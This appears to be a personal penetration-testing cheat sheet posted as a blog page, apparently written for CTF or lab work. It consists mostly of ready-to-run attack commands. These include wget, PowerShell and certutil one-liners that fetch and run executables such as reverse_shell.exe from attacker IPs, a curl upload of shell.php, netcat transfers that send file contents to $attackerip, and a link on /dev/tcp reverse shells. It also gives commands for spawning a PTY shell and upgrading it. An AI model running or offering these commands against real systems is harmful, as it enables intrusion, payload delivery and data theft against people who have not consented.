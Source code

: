 ```yaml
---
layout: single
title: "Misc Notes"
collection: notes
excerpt: "Trials and tribulations"
permalink: /notes/2020-05-10-misc
toc: true
---
```


# Exploitation:
## Gaining a reverse shell:

https://consolechars.wordpress.com/2017/03/27/devtcp-forgotten-linux-delicacy/


# Post Exploitation
## Transfering Files: 
HTTP:
- Apache: 
Copying the file to `/var/www/html` directory and starting apache services.
-  Python
```python
  python -m SimpleHTTPServer 80
  python3 -m http.server 80
```

Downloading the files:
*  via browser in a Gui platform.
*  via shell access.
   -  wget command.
   ```python
    wget http://10.10.10.100:8007/execute.py; chmod +x excute.py; ./excute.py
   ```
   - Using Powershell:
   ```python
   powershell -c "iex(new-object System.Net.WebClient).DownloadFile('http://10.10.14.30:9005/40564.exe', 'c:\Users\Public\Downloads\40564.exe')"
   powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://10.x.x.x:8000/reverse_shell.exe','C:\Windows\Temp\patch.exe')
   certutil.exe -urlcache -split -f "https://host/40564.txt" attack.txt
   certutil.exe -decode attack.txt attack.exe
   ```
   -  curl command.
   ```python
     curl -O http://10.10.14.30:9005/file
     Uploading:
     curl --upload-file shell.php --url http://$ip/shell.php --http1.0
   ```
   -  Python.
   ```python
      python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"
   ```

Ftp:
- 
   ```python
      Install the python ftp library - pyftpdlib
      python -m pyftpdlib -p 21
   ```

Smb:
-  
   ```python
      python smbserver.py SHARENAME /root/shells

      Copying files:[Target Machine]
       dir \\192.168.0.201\SHARENAME
       copy \\192.168.0.201\SHARENAME\40056.exe
   ```

Protip:
-  
```python
   On local system:
   cat filetoupload | base64 -w 0; echo
   #double click on output to copy
   On Target System:
   echo <copiedContent> | base64 -d > filetoupload
```

* Netcut:

   ```python
      on attacker run:
      nc -lvp 443> transfer.txt
      on target run:
      cat transfer.txt | nc $attackerip 443
   ```

## Spawning a Shell:
Python:
```python
    python -c  'import pty; pty.spawn("/bin/sh")'
    python3 -c 'import pty; pty.spawn("/bin/sh")'
    python3 -c 'import pty; pty.spawn("/bin/bash")'

```
Echo:
```python
   echo os.system('/bin/bash') 
```
Bash and Sh:
```python
   /bin/bash -i
   /bin/sh -i
```
## Obtaining a interactive shell.

1. Do CTRL+Z to background Netcat Session.

2. Enter stty raw -echo in your terminal

3. Run the command fg - bring Netcat back to the foreground.

## List user privileges:
```python
   Windows: 
   whoami /priv
   Unix:
   sudo -l
```